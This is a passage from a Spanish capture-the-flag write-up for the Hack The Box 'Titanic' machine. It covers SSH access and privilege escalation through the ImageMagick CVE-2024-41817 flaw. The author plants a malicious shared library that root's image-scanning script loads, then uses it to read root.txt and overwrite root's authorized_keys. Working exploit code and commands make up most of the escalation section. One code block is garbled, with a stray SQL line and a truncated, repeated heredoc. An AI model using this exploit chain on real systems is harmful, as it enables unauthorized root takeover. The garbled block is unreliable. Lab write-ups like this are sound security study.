============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

Intentamos conectarnos mediante `SSH` con las credenciales del usuario`developer`. Logramos obtener acceso al equipo y visualizar la flag de **user.txt**.

```bash
❯ ssh developer@titanic.htb
developer@titanic.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

...[snip]...

developer@titanic:~$ cat user.txt 
b1a7050e29**********************
```

## Privilege Escalation

### Basic Enumeration

Realizaremos una enumeración básica para comprobar si disponemos de privilegios en algún grupo o de algún permiso `sudoers`, en este caso, no obtuvimos resultado.

```bash
developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)

developer@titanic:~$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on titanic.
```

Por lo tanto, para realizar una enumeración inicial para escalar nuestros privilegios, decidimos usar `linpeas.sh` el cual compartiremos a través de un servidor web.

```bash
❯ ls -l linpeas.sh
.rw-r--r-- kali kali 806 KB Sat Feb 15 23:38:37 2025  linpeas.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el script y le daremos los permisos de ejecución correspondientes.

```bash
developer@titanic:/tmp$ wget 10.10.16.3/linpeas.sh; chmod +x linpeas.sh
--2025-02-15 22:39:50--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                100%[==================================================================================================================================>] 805.61K   743KB/s    in 1.1s    

2025-02-15 22:39:52 (743 KB/s) - ‘linpeas.sh’ saved [824942/824942]
```

Después del análisis, verificamos que nos marca posible PrivEsc mediante un `Path`. Realizamos algunas pruebas intentando escalar privilegios mediante lo que se nos indicaba pero no obtuvimos resultado.

<figure><figcaption></figcaption></figure>

### Analyzing Root Script

Enumerando el directorio `/opt`, nos encontramos con un script llamado `identify_images.sh` que se encontraba en `/opt/scripts`.

Este script se encarga de generar un informe sobre las imágenes JPEG presentes en el directorio `/opt/app/static/assets/images`. A continuación te detallo lo que hace cada parte del script para que lo puedas incluir en el write-up:

1. `cd /opt/app/static/assets/images`: Cambia al directorio donde se encuentran las imágenes JPEG.
2. `truncate -s 0 metadata.log`: Vacía (o crea si no existe) el archivo `metadata.log`, dejándolo con un tamaño de 0 bytes. Esto se hace para asegurarse de que el archivo esté vacío antes de generar nuevos datos.
3. `find /opt/app/static/assets/images/ -type f -name "*.jpg"`: Busca todos los archivos con la extensión `.jpg` dentro del directorio `/opt/app/static/assets/images/` y sus subdirectorios.
4. `| xargs /usr/bin/magick identify`: Usa la salida del comando `find` (una lista de archivos `.jpg`) y pasa cada archivo como argumento al comando `magick identify`, que es una herramienta de ImageMagick para obtener metadatos de las imágenes (como tamaño, tipo de archivo, resolución, etc.).
5. `>> metadata.log`: Redirige la salida del comando `magick identify` al archivo `metadata.log`, agregando la información de las imágenes al final del archivo, de manera que se acumule la metadata de todas las imágenes encontradas.

En resumen, este script busca todas las imágenes JPEG en un directorio específico, obtiene sus metadatos usando `magick identify` y los guarda en un archivo de registro (`metadata.log`). Esto puede ser útil para examinar detalles como la resolución, los perfiles de color o posibles metadatos adicionales que las imágenes puedan contener.

```bash
developer@titanic:/opt$ ls -l
total 12
drwxr-xr-x 5 root developer 4096 Feb  7 10:37 app
drwx--x--x 4 root root      4096 Feb  7 10:37 containerd
drwxr-xr-x 2 root root      4096 Feb  7 10:37 scripts
developer@titanic:/opt$ cd scripts/
developer@titanic:/opt/scripts$ ls -l
total 4
-rwxr-xr-x 1 root root 167 Feb  3 17:11 identify_images.sh
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Accedimos al directorio `/opt/app/static/assets/images` y verificamos si teníamos capacidad de escritura copiando una imagen de las que ya había en el repositorio.

Verificamos que logramos copiar la imagen, con lo cual confirmamos de los permisos de escritura en dicho directorio.&#x20;

```bash
developer@titanic:/opt/app/static/assets/images$ ls -l
total 1280
-rw-r----- 1 root developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 root developer 232842 Feb  3 17:13 home.jpg
-rw-r----- 1 root developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root developer    442 Feb 15 22:41 metadata.log
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg test2.jpg
developer@titanic:/opt/app/static/assets/images$ ls -l
total 1568
-rw-r----- 1 root      developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root      developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root      developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 root      developer 232842 Feb  3 17:13 home.jpg
-rw-r----- 1 root      developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root      developer    442 Feb 15 22:41 metadata.log
-rw-r----- 1 developer developer 291864 Feb 15 22:41 test2.jpg
```

### ImageMagick 7.1.1-35 Exploitation - Arbitraty Code Execution (CVE-2024-41817)

Volviendo a analizar el script `identify_images.sh`, nos dimos cuenta de que utilizaba la herramienta de `magick`. Revisamos que el binario se encontraba instalado y utilizaba la versión `7.1.1-35`.


ImageMagick es un complemento de software para crear, editar, componer o convertir imágenes de mapa de bits. Puede leer y escribir imágenes en varios formatos (más de 200), incluidos PNG, JPEG, JPEG-2000, GIF, TIFF, DPX, EXR, WebP, Postscript, PDF y SVG.14 jul 2024


```bash
developer@titanic:/opt/app/static/assets/images$ which magick
/usr/bin/magick
developer@titanic:/opt/app/static/assets/images$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

Revisando posibles vulnerabilidades de esta versión de `Magick`, nos encontramos con el siguiente `CVE-2024-41817`.

<figure><figcaption></figcaption></figure>




ImageMagick es un paquete de software libre y de código abierto que se utiliza para editar y manipular imágenes digitales. La versión AppImage ImageMagick podría utilizar una ruta vacía al configurar las variables de entorno MAGICK\_CONFIGURE\_PATH y LD\_LIBRARY\_PATH durante la ejecución, lo que podría provocar la ejecución de código arbitrario al cargar archivos de configuración maliciosos o bibliotecas compartidas en el directorio de trabajo actual mientras se ejecuta ImageMagick. La vulnerabilidad se corrigió en 7.11-36.


En el siguiente repositorio de GitHub, se nos proporcionaba un PoC de cómo explotar esta vulnerabilidad.



<figure><figcaption></figcaption></figure>

Decidimos realizar una prueba para verificar si la versión de **Magick** instalada en el equipo era vulnerable. Para ello, inyectamos un código que ejecutaba el comando `id`, lo cual, al compilarlo, creaba un archivo **libxcb.so.1** en el directorio donde se ejecutaba el código. Al ejecutar **magick**, observamos que se mostraba la ejecución del comando realizado y, además, el archivo **libxcb.so.1** se eliminaba.

Con esta prueba, nos surgió la idea de realizar un payload malicioso en el directorio **/opt/app/static/assets/images**. Suponiendo que el usuario **root** tuviera alguna tarea programada que detectara la llegada de un nuevo archivo **.jpg** en dicho directorio (lo cual es posible si copiamos un archivo previamente creado ya que tenemos permisos de escritura), si se ejecutara el script correspondiente, el sistema podría cargar nuestro archivo malicioso **libxcb.so.1**. Esto podría permitirnos ejecutar comandos como usuario **root**, ya que el **magick** invocado en el script cargaría nuestro payload.

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> __attribute__((constructor)) void init(){
>     system("id");
>     exit(0);
> }
> EOF
developer@titanic:/opt/app/static/assets/images$ magick /dev/null /dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

Realizamos el siguiente payload, el cual copiaba el contenido de **root.txt** en **/tmp/root.txt.** Luego, copiamos un archivo de imagen para simular la detección de un nuevo **.jpg** en el directorio.

Tras listar los archivos, notamos que **libxcb.so.1** desapareció del directorio, lo que indica que fue cargado y eliminado tras su ejecución. Finalmente, verificamos en **/tmp** y confirmamos que **root.txt** había sido copiado con éxito.

Esto sugiere que el usuario **root**, al detectar la presencia de un nuevo **.jpg** (el que copiamos), ejecutó el script que contenía **magick** vulnerable, lo que permitió la ejecución de nuestro payload malicioso con privilegios elevados.

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg example.jpg
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls -l /tmp
total 36
-rw-r--r-- 1 root root   33 Feb 15 22:53 root.txt
drwx------ 3 root root 4096 Feb 15 18:56 snap-private-tmp
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-apache2.service-sf8WAV
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-ModemManager.service-qtqDH6
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-systemd-logind.service-r4f56E
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-systemd-resolved.service-PfrsTg
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-systemd-timesyncd.service-d0S56r
drwx------ 3 root root 4096 Feb 15 20:42 systemd-private-33a772c388c040da98b2531770d8cbd2-upower.service-gqltjw
drwx------ 2 root root 4096 Feb 15 18:56 vmware-root_612-2731021090
developer@titanic:/opt/app/static/assets/images$ cat /tmp/root.txt 
56b44559858f********************
```

### Shell as root

Una vez confirmado que podemos ejecutar código arbitrario como **root** a través de **ImageMagick**, podemos aprovechar esta vulnerabilidad para obtener una shell interactiva. La estrategia es copiar nuestra clave pública SSH al archivo **/root/.ssh/authorized\_keys**, lo que nos permitirá autenticarnos como **root** sin necesidad de conocer su contraseña.

Para ello, primero generaremos en nuestro equipo una clave pública.

```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Created directory '/home/kali/.ssh'.
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:NL7Kfc7xnIbkbWyumFEHUHOgFHf7n1EFFztBsCdZvqU kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|        +o=.o.+*+|
|       . + + .=.+|
|        + . .+ =o|
|       o . . .o.=|
|        S . . Eo |
|         o..   .o|
|        oo.+   ..|
|     . o =++*.   |
|      o +o+*=    |
+----[SHA256]-----+
```

Copiaremos el contenido de nuestra clave pública SSH.

```bash
❯ cat ~/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPVBBTqNhy3yVC7Y+B4znNnZ1sB5VsgS8DzIiMyZJbF kali@kali
```

El payload que usaremos reemplazará el contenido de **authorized\_keys** con nuestra clave pública. Ejecutamos la misma técnica que utilizamos anteriormente para cargar la biblioteca maliciosa y activamos la vulnerabilidad.

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
CREATE UNIQUE INDEX `UQE_action_runner_token_token` ON `action_runner_token` (`token`)
__attribute__((constructor)) void init(){
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPVBBTqNhy3yVC7Y+B4znNnZ1sB5VsgS8DzIiMyZJbF kali@kali' > /root/.ssh/authorized_keys");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg example.jpg
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log
```

Probaremos de acceder con el usuario `root` a través de SSH y verificamos que no requiere de credenciales debido que disponemos de nuestra clave pública en el archivo `/root/.ssh/authorized_keys`. Finalmente, logramos obtener la flag de **root.txt**.

```bash
❯ ssh root@titanic.htb
The authenticity of host 'titanic.htb (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'titanic.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Feb 15 10:58:14 PM UTC 2025

  System load:           0.2
  Usage of /:            68.4% of 6.79GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             234
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a405


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@titanic:~# cat root.txt 
56b44559858************************
```
